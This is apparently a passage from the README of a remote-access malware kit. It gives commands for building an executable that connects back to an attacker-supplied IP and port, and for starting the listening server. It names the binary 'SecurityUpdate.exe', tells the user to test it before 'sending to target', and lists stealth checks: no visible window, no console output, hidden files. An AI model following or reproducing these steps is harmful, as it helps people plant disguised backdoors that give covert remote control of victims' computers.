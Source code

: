 See `icons/README.md` for detailed instructions.

### Change Application Name

Edit `build_executable.py`:

```python
# Line ~171 for Windows
output_name = "YourAppName"

# Line ~209 for macOS
output_name = "YourAppName"

# Line ~243 for Linux
output_name = "your-app-name"
```

Then rebuild.

---

## 🧪 Testing

### Test in Safe Environment

**Before sending to target, always test!**

1. **Build executable**

   ```bash
   python3 build_executable.py 192.168.1.100 5555 windows
   ```

2. **Start server** (in another terminal)

   ```bash
   cd ..
   python3 server.py
   ```

3. **Test on VM**

   - Copy `SecurityUpdate.exe` to Windows VM
   - Double-click to run
   - Check if connection appears on server

4. **Verify stealth**
   - No visible windows? ✅
   - No console output? ✅
   - Connects successfully? ✅
   - Files hidden in home directory? ✅

### Platform-Specific Testing

**Windows VM:**

```
1. Copy SecurityUpdate.exe to VM
2. Double-click
3. Check Task Manager (should see Python process)
4. Check for connection on server
```
